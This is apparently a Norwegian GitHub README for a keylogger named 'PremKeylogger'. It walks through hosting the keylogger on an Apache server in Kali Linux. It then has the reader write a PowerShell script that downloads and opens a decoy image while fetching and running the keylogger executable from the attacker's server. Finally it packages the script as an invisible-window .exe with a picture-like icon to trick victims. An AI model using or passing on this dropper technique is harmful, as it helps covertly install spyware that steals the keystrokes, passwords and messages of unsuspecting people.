 # PremKeylogger-ferdig

Verktøy:
-Hyper-V manager
-Winscp
-Kali linux
-bat to exe converter
-2 bilder
-1 ICO (ikon)

---------------------------------------------------------------------------------------------------------------------------------|

Koden ble skrevet i Visual studio, hvordan du implenterer koden i et "bilde" er gjort i Kali Linux.

---------------------------------------------------------------------------------------------------------------------------------|

For å få "injecte" keyloggeren inn i et "bilde" må du lage apache2 web server for å lagre din keylogger inni den.

---------------------------------------------------------------------------------------------------------------------------------|

For å gjøre det trenger du Kali linux. Det er for å sette opp en Apache web server. Du må også overføre din keylogger
til din Kali linux. Du trenger "Winscp" for å gjøre dette.

---------------------------------------------------------------------------------------------------------------------------------|

For å sjekke at din Apache2 web server er oppe kan du skrive inn din kali linux sin ip adresse, kommando for å få ip adresse: "ip a".
Når du har Ip adressen skriver du inn i google chrome "http://DIN IP ADRESSE"

---------------------------------------------------------------------------------------------------------------------------------|

For å legge keylogger filen inn på din apache2 web server går du inn på kali linux:
-> "Open folder", øverst til venstre -> finn keyloggeren -> høyreklikk -> cut -> file system - Var -> www -> html -> høyreklikk -> paste.

---------------------------------------------------------------------------------------------------------------------------------|

Finn et passende bilde som har en URl som slutter på .png, .jpg eller .jpeg som for eksempel:
https://cdn.discordapp.com/attachments/669940183805984806/960943869988593764/20220405_184733.jpg
Så trenger vi URL til keyloggeren, du finner dette ved å gå inn på din Apache2 webs server, høyreklikke på filen -> Copy

---------------------------------------------------------------------------------------------------------------------------------|
Deretter gå inn på powershell på din vanlige pc. NB! gjør dette på notepad først. 
Skriv inn:
cd %TEMP%
Invoke-webRequest 'bilde URL' -OutFile passende navn.jpg
passende navn.png
Invoke-webRequest 'fil IRL' -OutFIle passende navn.exe (eller .bat)

---------------------------------------------------------------------------------------------------------------------------------|

Det kan se sånn ut:

cd %TEMP%
Invoke-webRequest 'https://cdn.discordapp.com/attachments/669940183805984806/960943869988593764/20220405_184733.jpg' -OutFile By.jpg
By.jpg
Invoke-webRequest 'http://192.168.50.221/S%c3%b8tHund.jpeg.exe' -OutFile SøtHund.jpeg.exe
SutHund.jpeg.exe

---------------------------------------------------------------------------------------------------------------------------------|

Lagre notepad filen der du kan finne den. Filtypen skal være "all files". Gi filen et passende navn som slutter på .exe. feks "SøtHunnd.exe".

---------------------------------------------------------------------------------------------------------------------------------|

Copy paste teksten på powershell, start den. Nå har vi en fil som gjør at hvis brukeren trykker på filen starter den programmet, ved at den installerer
et bilde, og hviser den. For å gi den et ikon trenger vi bat to exe converter. 
Dra filen inn på bat to exe converter -> Icon -> trykk på de 3 prikkene -> finn Ico filen -> exe format 32 bit | Windows (Invisible) -> Convert ->
navngi den et passende navn -> save


